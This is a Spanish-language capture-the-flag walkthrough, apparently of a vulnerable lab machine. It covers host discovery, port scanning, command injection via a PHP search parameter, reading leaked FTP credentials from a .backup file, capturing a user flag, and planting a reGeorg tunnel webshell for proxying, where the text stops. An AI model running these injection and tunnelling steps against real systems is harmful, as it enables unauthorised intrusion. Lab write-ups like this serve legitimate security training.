








Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
- 
- En el escaneo nos damos cuenta que tiene abierto el uerto 80 corriendo un servicio we con apache y el puerto 21 corriendo un servicio de FTP.

Procedemos a verificar si existe un sitio WEB de la maquina entramos al navegador con el siguiente link:
```
http://192.168.1.30/
```
- Nos redirige al siguiente sitio en el cual nos damos cuenta que contiene una carpeta que nos redirecciona a la página web:
	- 
	- http://192.168.1.30/site/
	- 

Revisamos el código de la página y encontramos un buscador en el siguiente link: http://192.168.1.30/site/busque.php?buscar=
pero ademas utilizando la herramienta " dirsearch " realizamos una enumeración de directorios para encontrar directorios y archivos:
```
dirsearch -u http://192.168.1.30/
```

Utilizando el link " http://192.168.1.30/site/busque.php?buscar=ls%20-al%20.. " recorriendo una carpeta atras y buscando archivos ocultos nos damos cuenta que podemos interactuar con comandos en el servidor, encontrando con un .backup:
- VER CÓDIGO PHP: view-source:http://192.168.1.30/site/busque.php?buscar=cat busque.php
- 
De igual manera con al herramienta que utilizamos para enumerar los directorios " dirsearch " desucbrimos que detecto un archivo oculto seria el .backup:
- 

Podemos ingresar por medio de la url al " .backup " y veremos unas contraseñas las cuales podemos ver si nos conectamos por medio de ftp:
- USERNAME: jangow01
- PASSWORD: abygurl69
```
http://192.168.1.30/.backup
```
- 

Nos conectamos por medio de ftp:
```
ftp 192.168.1.30
Connected to 192.168.1.30.
220 (vsFTPd 3.0.3)
Name (192.168.1.30:hunter): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Entrando a la ruta " /home/jangow01 " y haciendo el siguiente comando:
```
ls -al
```
- Encontramos un archivo user.txt el cal contiene la flag, podemos descargar el " user.txt "
```
	 get user.txt
```
- y una ves descargarda podemos ver su contenido con " cat ":
```
	cat user.txt
```
- FLAG: d41d8cd98f00b204e9800998ecf8427e
- 

AHORA ES MOMENTO DE ELEVAR PRIVILEGIOS:
Revisando la herramienta " [**reGeorg**](https://github.com/sensepost/reGeorg?ref=ciberseguridad.blog) " subiremos un tunel, crearemos un proxy:
- ya que tenemos acceso por ftp utilizando la terminal o filezilla llevaremos " tunnel.nosocket.php " que se encuentra en la carpeta de la herramienta a la maquina victima en la carpeta " /temp "
- 
- Procedemos a copiarlo a la siguiente ruta desde la web:
	- http://192.168.1.30/site/busque.php?buscar=cp%20-v%20/tmp/tunnel.php%20/var/www/html/site/tunnel.php
- Una ves subido podemos utilizar ahora " reGeorg ":
```
python reGeorgSocksProxy.py -p 8080 -u http://192.168.1.30/site/tunnel.php
```


